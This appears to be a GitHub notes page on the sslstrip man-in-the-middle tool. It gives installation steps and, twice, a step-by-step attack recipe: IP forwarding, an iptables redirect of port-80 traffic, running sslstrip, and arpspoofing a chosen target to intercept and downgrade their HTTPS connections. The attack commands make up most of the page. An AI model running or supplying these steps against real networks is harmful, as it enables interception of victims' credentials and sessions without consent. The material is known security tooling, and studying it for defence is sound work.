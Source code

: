 # SSL-Stipping-Attack

[GitHub Moxie0 - sslstrip](https://github.com/moxie0/sslstrip)

`sslstrip` is a MITM tool that implements Moxie Marlinspike's SSL stripping 
attacks. Link 
>
 It requires Python 2.5 or newer, along with the 'twisted' python module.
>
 Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install, 
	  or you can just run it out of the directory.  
>
 Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the 
	command-line options.
>
	The four steps to getting this working (assuming you're running Linux) 
	are:
>
	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward
>
	2) Setup iptables to intercept HTTP requests (as root):
	   `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>`
>
	3) Run sslstrip with the command-line options you'd like (see above).
>
	4) Run arpspoof to redirect traffic to your machine (as root):
	   `arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>`

Neither are functional:
```php
hxxps[://]moxie[.]org/software/sslstrip/
hxxp[://]www[.]thoughtcrime[.]org/software/sslstrip/
```

Usage from [GitHub OlivierLaflamme/Cheatsheet-God Cheatsheet_SSLStrip.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_SSLStrip.txt) :
```bash
# Flip your machine into forwarding mode (as root):
echo "1" > /proc/sys/net/ipv4/ip_forward

# Setup iptables to intercept HTTP requests (as root):
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
	
sslstip.py -l 8080 -f lock.ico

# Run arpspoof to redirect traffic to your machine (as root):
arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
```

## References

[GitHub OlivierLaflamme/Cheatsheet-God Cheatsheet_SSLStrip.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_SSLStrip.txt) 
[GitHub Moxie0 - sslstrip](https://github.com/moxie0/sslstrip)